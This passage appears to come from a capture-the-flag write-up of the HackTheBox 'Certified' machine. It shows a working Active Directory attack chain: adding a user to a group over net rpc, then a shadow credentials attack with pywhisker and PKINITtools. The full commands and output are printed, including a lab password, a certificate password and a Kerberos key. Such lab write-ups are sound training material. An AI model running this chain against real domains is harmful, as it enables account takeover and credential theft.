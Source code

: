 $ net rpc group addmem "management" judith.mader -U 'judith.mader' -S certified.htb

$ net rpc group members "management" -U 'judith.mader' -S certified.htb            
Password for [WORKGROUP\judith.mader]:
CERTIFIED\judith.mader
CERTIFIED\management_svc
{{< /highlight >}}

### Management group -> management_svc

Going back on BloodHound, we noticed that *management_svc* is kerberoastable but the hash retrieved can't be cracked.\
We can see that the members of the *management* group have ```GenericWrite``` over the *management_svc* user.
By leveraging this permission, we can use the shadow credentials technique in order to gain access to *management_svc* and retrieve the NT hash.
![](BH_management.png)


First, we generate a *.pfx* file and populate the `msDS-KeyCredentialLink` attribute of *management_svc* using Pywhisker.
{{< highlight go "hl_lines=1" >}}
$ ./pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: d1df9aac-4ae1-36e0-f803-d8e369ed930e
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 9JZGbAPu.pfx
[+] PFX exportiert nach: 9JZGbAPu.pfx
[i] Passwort für PFX: c2U4qtZsMkLNEedx4nFb
[+] Saved PFX (#PKCS12) certificate & key at path: 9JZGbAPu.pfx
[*] Must be used with password: c2U4qtZsMkLNEedx4nFb
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
{{< /highlight >}}

Then, we retrieve a TGT for *management_svc* and the NT hash using PKINITtools.
{{< highlight go "hl_lines=1 13 21" >}}
$ ./gettgtpkinit.py certified.htb/management_svc -cert-pfx 9JZGbAPu.pfx -pfx-pass c2U4qtZsMkLNEedx4nFb management_svc.ccache
2025-03-14 01:42:02,044 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 01:42:02,082 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 01:42:02,138 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 01:42:02,138 minikerberos INFO     37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
INFO:minikerberos:37b5b0b8873bb21cdf40daad3dcf408af0be706f772bf52dda96dbecfa00f041
2025-03-14 01:42:02,141 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

